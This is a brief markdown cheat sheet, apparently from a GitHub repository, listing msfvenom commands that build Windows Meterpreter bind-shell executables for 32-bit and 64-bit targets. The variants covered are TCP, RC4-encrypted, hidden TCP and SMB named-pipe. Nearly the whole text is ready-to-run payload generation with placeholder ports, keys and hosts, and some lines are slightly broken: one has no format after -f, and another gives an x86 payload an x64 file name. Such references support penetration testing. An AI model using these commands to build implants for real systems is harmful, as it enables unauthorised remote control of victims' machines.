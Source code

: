 # Bind Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p windows/meterpreter/bind_tcp lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/bind_tcp_rc4 lport=<PORT> rc4password=<KEY> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/bind_hidden_tcp ahost=<IP> lport=<PORT> -f exe -o hidden-met-x64.exe`

`$ msfvenom -p windows/meterpreter/bind_named_pipe lport=<PORT> pipename=<PIPENAME> -f -o met-x86.exe`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/meterpreter/bind_tcp lport=<PORT> -f exe -o met-x64.exe`

`$ msfvenom -p windows/x64/meterpreter/bind_tcp_rc4 lport=<PORT> rc4password=<KEY> -f exe -o met-x64.exe`

For the SMB pipe the default for LPORT will always be port **445** 

`$ msfvenom -p windows/x64/meterpreter/bind_named_pipe lport=<PORT> pipename=<PIPENAME> -f exe -o met-x64.exe`